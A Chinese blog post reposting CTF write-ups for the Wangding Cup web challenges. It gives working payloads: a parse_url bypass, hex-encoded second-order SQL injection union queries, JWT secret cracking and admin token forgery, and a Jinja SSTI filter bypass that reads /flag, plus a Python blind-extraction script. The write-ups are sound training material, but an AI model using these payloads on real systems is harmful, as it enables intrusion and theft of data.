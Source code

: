 ```yaml
---
layout:     post
title:      深入了解Json Web Token
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-714676.jpg
catalog: true
tags:
    - JWT
---
```




通过赛题深入了解JWT

比赛环境没关，可以找其他人借账号复现本次比赛题目，以下是网鼎杯第三场Web题解。

## Web

### comein

题目：由于运维人员失误，内网认证页面部署至了外网，不过还好，开发加了域名验证。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)

查看源码，发现如下代码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)

很明显又是考察 **parse_url** 函数绕过，只不过开头多了对点号的匹配，绕过即可。使用 **payload**：**.@c7f.zhuque.com/..//**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)

可以自己本地调试一下。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)

### gold

题目：还在上小学的小明同学开发了一款游戏，你能通关吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)

**Burpsuite** 抓包会发现浏览器一直发送POST数据，应该是通过Ajax来发起请求的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)

根据题目提示： **收集1000金币即可过关** 。尝试直接将参数 **getGod** 的值修改为1000，发现会触发检测机制。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)

于是使用 **Burpsuite** 抓包，用 **Intruder** 模块从0跑到1001，在 **getGod=1001** 的数据包中获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)

PS：用多线程跑会触发游戏的反作弊机制，用单线程按顺序跑就能出flag。

### phone

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)

看到这道题目，马上就想到 [2017广东省强网杯(第三题)](https://mochazz.github.io/2017/09/11/QWBCTF/) 。测试了一下，果然在用户注册处的电话处存在二次注入，测试结果如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)

可以发现这里查询结果为： **有1人和你电话相似哦~** ，而实际上这是我注册的第一个用户，数据库中不可能有用户的电话和我一样，所以应该是执行了我们刚刚构造的 **SQL语句** ，因为后面的布尔逻辑值为真。所以我们分别构造获取表名、列名、字段的 **payload** 如下：

获取表名：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
username=test4&password=test4&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)

获取列名：

```
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
username=test6&password=test6&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d22666c616722206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)

获取字段：

```
aaa' union select f14g from flag order by 1 desc#
username=test7&password=test7&phone=0x6161612720756e696f6e2073656c65637420663134672066726f6d20666c6167206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)

这里可能有人会不明白为什么要加上 **order by 1 desc** ，大家可以试试下面这个 **payload** ：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
username=test8&password=test8&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d6461746162617365282923&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)

实际上后台的 **SQL语句** 类似下图 **第一个SQL语句** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)

### i_am_admin

题目：你能登录进去吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)

抓取登录数据包，发现 **JWT** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)

登录进去可以发现用于加密的 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)

使用这个 **secret key** 到 <https://jwt.io/> 生成 **admin** 对应的 **token** 值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)

使用该 **token** 值访问网站即可获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)

### mmmmy

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)

抓包发现又是python的web程序，使用了JWT：(随手用test/test登录即可看到)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)

使用 [**c-jwt-cracker**](https://github.com/brendan-rius/c-jwt-cracker) 爆破 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)

发现只有 **admin** 才能用留言板功能，所以 **伪造admin的token** 登录：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)

**virink** 师傅提醒说留言板处存在 **SSTI** ，于是测试了下，果然存在，只不过过滤了 **{{}}** 的写法，那我们可以换成流程控制结构的写法 **{%if 表达式%}内容1{%else%}内容2{%endif%}** ，测试如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)

那么后面的数据就要盲注出来了，使用的 **payload** 类似如下:

```
text={%  if open('/flag','r').read()[0]=='f' %}1{%  else  %}0{%  endif  %}
```

这里实际上过滤了单、双引号，我们可以使用以下payload进行绕过：

```
text={% if request.values.e[18] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[0]%}good{%endif%}&a=__class__&b=__base__&c=__subclasses__&d=/flag&e=}-{0123456789abcdefghijklmnopqrstuvwxyz
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)

getflag程序如下：

```
import requests,sys
url = "http://4532bc69bc734acd8416204f0aa04f446e9d38024c5644e8.game.ichunqiu.com/bbs"
cookie = {
    "token" : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.IXEkNe82X4vypUsNeRFbhbXU4KE4winxIhrPiWpOP30"
}
chars = "}-{0123456789abcdefghijklmnopqrstuvwxyz"
flag = ''
for i in range(0,50):
    for j in range(0,len(chars)):
        data = {
            "text" : "{%% if request.values.e[%d] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[%d]%%}getflag{%%endif%%}" % (j,i),
            "a" : "__class__",
            "b" : "__base__",
            "c" : "__subclasses__",
            "d" : "/flag",
            "e" : chars
        }
        r = requests.post(url=url,data=data,cookies=cookie)
        if 'getflag' in r.text:
            flag += chars[j]
            sys.stdout.write("[+] "+ flag + '\r')
            sys.stdout.flush()
            if chars[j] == '}':
                print(flag)
                exit()
            else:
                break
print(len(r.text))
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)



转载自先知：https://xz.aliyun.com/t/2648

[深入了解Json Web Token之概念篇](https://www.freebuf.com/articles/web/180874.html)

[深入了解Json Web Token之实战篇](https://www.freebuf.com/articles/web/181261.html)